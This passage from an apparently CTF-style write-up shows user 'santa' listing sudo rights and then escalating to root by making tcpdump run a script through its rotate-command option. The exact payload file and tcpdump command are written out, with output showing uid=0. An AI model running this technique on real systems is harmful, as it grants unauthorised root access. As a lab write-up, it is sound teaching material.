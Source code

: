 With the password it was now possible to run `sudo`. But It still would not let
me do anything. So I ran `sudo -l` to list the things that Santa is allowed to
do with sudo. \
(I later learned, that I could have run `sudo -l` without the password. I didn't
know that was possible.)

```sh
santa@[server]:/home/santa> sudo cat /var/log/wishlist.log
[sudo] password for santa: 
Sorry, user santa is not allowed to execute '/usr/foobar/cat /var/log/wishlist.log' as root on [server].

santa@[server]:/home/santa> sudo -l
Matching Defaults entries for santa on [server]:
   
    secure_path=/usr/foobar\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User santa may run the following commands on [server]:
    (root) NOPASSWD: /usr/bin/less /var/log/*
    (root) NOPASSWD: !/usr/bin/less /var/log/*..*
    (root) NOPASSWD: !/usr/bin/less /var/log/* *
    (root) NOPASSWD: /usr/bin/tcpdump
```

So Santa is allowed to read log files with _less(1)_ and ... run _tcpdump(1)_
?!

(The _tcpdump(1)_ permission kinda made sense because Santa used it to debug his
script. That can be deduced when looking at `/home/santa/.ash_history`.)


### Privesc with _tcpdump(1)_

At this point everything was starting to come together nicely `:-)`

_tcpdump(1)_ can be abused to do a privilege escalation. The basic idea is to
call _tcpdump(1)_ in a certain way so it executes an arbitrary script for you.

In _tcpdump(1)_ there is a possibility to use a custom command to compress
captured packet data when a log rotation condition is met. The trick is to
hand it a script you want to execute as root, tell it that log rotate must
happen after a single captured packet execute it and then wait for a network
packet or issue one yourself...

```sh
santa@[server]:/home/santa> cat << EOF > /tmp/payload.sh
> #!/bin/sh
> id
> EOF

santa@[server]:/home/santa> chmod u+x /tmp/payload.sh 

santa@[server]:/home/santa>\
sudo tcpdump -nl -i eth0 -w /dev/zero -W 1 -G 1 -z /tmp/payload.sh -Z root
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
2 packets received by filter
0 packets dropped by kernel
> uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

```


[findutilsApk]: http://dl-cdn.alpinelinux.org/alpine/edge/main/x86_64/findutils-4.9.0-r2.apk
[alpineX86Repo]: http://dl-cdn.alpinelinux.org/alpine/edge/main/x86_64/